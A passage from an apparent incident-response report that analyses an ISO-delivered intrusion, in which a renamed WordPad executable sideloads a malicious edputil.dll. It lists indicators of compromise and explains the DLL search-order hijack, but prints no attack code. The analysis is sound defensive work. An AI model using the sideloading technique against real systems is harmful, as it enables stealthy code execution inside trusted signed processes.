

Reading the document directly answers the question I left open earlier. RTF markup, font tables, paragraph text. No \objdata, so no embedded OLE objects. No \objupdate, so nothing triggers automatically. No long hexadecimal blocks either, so there is no payload hiding in it. The document is bait. That matches WINWORD.EXE spawning no children of its own.



Then c:\wnd, which is where my picture of the incident changed. The folder exists, but 3291.png is not in it.



Checking again with hidden files shown gives the same answer. The directory is empty.



So the payload never arrived. rundll32 was called on a file that did not exist and failed with no effect. The chain ran all the way to execution and broke at delivery, which is luck rather than defence.

### 3.6 File reputation

I took hashes for both files out of the ISO.



edputil.dll comes back at 57 of 70 on VirusTotal.

The Behavior tab is what ties it to this host. Contacted Domains lists yourunitedlaws.com and Contacted IP lists 50.3.132.236, both matching the activity on the host. Relations lists perspiciatism.zip and PERSPICIATISM.iso as execution parents, which rebuilds the delivery chain from the other end without touching the host logs at all. The malicious code is in the DLL, and the executable is clean.



Open_Document.exe scores 0 of 49 and is identified as a Microsoft distributed binary: WordPad, write.exe, renamed. It carries the lolbin and known-distributor tags, which mark it as a file with a history of being abused.



That closes the mechanism. Run write.exe and Windows looks for its dependencies in the program's own folder before it looks in System32. edputil.dll was sitting right next to it, so the attacker's version got loaded and the attacker's code ran inside a signed Microsoft process. The three files had to stay in one folder for any of that to work, which is why they travelled inside an ISO. It also explains the parent process oddity from the logs. md c:\wnd, the curl command, document.rtf and rundll32 are all attributed to Open_Document.exe because that is the process the DLL's code was running in.

### 3.7 What the evidence ruled out

Two ideas were considered and dropped along the way.

The decoy document was my first candidate for the execution vector, since a weaponised RTF is the ordinary way to get code running from a document. Reading the file ruled that out. The attack never needed an exploit, because the user ran the executable themselves.

The second was 172.31.19.77, the only outbound connection after the alert and the obvious candidate for C2. It is a private AWS VPC address, consistent with the host being an EC2 instance, so I excluded it. Nothing else outbound follows the rundll32 call. Every stage of this attack worked except the one that depended on the attacker's server still being up.
